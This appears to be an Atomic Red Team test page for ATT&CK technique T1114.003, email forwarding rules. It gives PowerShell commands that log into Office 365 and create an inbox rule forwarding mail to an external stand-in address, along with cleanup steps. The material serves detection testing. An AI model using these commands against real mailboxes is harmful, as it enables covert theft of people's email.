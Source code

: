 # T1114.003 - Email Collection: Email Forwarding Rule
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1114/003)
<blockquote>Adversaries may setup email forwarding rules to collect sensitive information. Adversaries may abuse email-forwarding rules to monitor the activities of a victim, steal information, and further gain intelligence on the victim or the victim’s organization to use as part of further exploits or operations.(Citation: US-CERT TA18-068A 2018) Furthermore, email forwarding rules can allow adversaries to maintain persistent access to victim's emails even after compromised credentials are reset by administrators.(Citation: Pfammatter - Hidden Inbox Rules) Most email clients allow users to create inbox rules for various email functions, including forwarding to a different recipient. These rules may be created through a local email application, a web interface, or by command-line interface. Messages can be forwarded to internal or external recipients, and there are no restrictions limiting the extent of this rule. Administrators may also create forwarding rules for user accounts with the same considerations and outcomes.(Citation: Microsoft Tim McMichael Exchange Mail Forwarding 2)(Citation: Mac Forwarding Rules)

Any user or administrator within the organization (or adversary with valid credentials) can create rules to automatically forward all received messages to another recipient, forward emails to different locations based on the sender, and more. Adversaries may also hide the rule by making use of the Microsoft Messaging API (MAPI) to modify the rule properties, making it hidden and not visible from Outlook, OWA or most Exchange Administration tools.(Citation: Pfammatter - Hidden Inbox Rules)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Office365 - Email Forwarding](#atomic-test-1---office365---email-forwarding)


<br/>

## Atomic Test #1 - Office365 - Email Forwarding
Creates a new Inbox Rule to forward emails to an external user via the "ForwardTo" property of the New-InboxRule Powershell cmdlet.

**Supported Platforms:** Office-365


**auto_generated_guid:** 3234117e-151d-4254-9150-3d0bac41e38c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | office-365 username | string | |
| password | office-365 password | string | |
| rule_name | email rule name | string | Atomic Red Team Email Rule|
| forwarding_email | destination email addresses | string | Atomic_Operator@fakeemail.aq|


#### Attack Commands: Run with `powershell`! 


```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
New-InboxRule -Name "#{rule_name}" -ForwardTo "{#forwarding_email}"
```

#### Cleanup Commands:
```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Get-InboxRule | Where-Object { $_.Name -eq "#{rule_name}" | ForEach-Object { Remove-InboxRule -Identity $_.Identity -Force -Confirm:$False }
```



#### Dependencies:  Run with `powershell`!
##### Description: ExchangeOnlineManagement PowerShell module must be installed. Your user must also have an Exchange license.
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name ExchangeOnlineManagement -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Connect-ExchangeOnline']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name ExchangeOnlineManagement         
Import-Module ExchangeOnlineManagement
```




<br/>
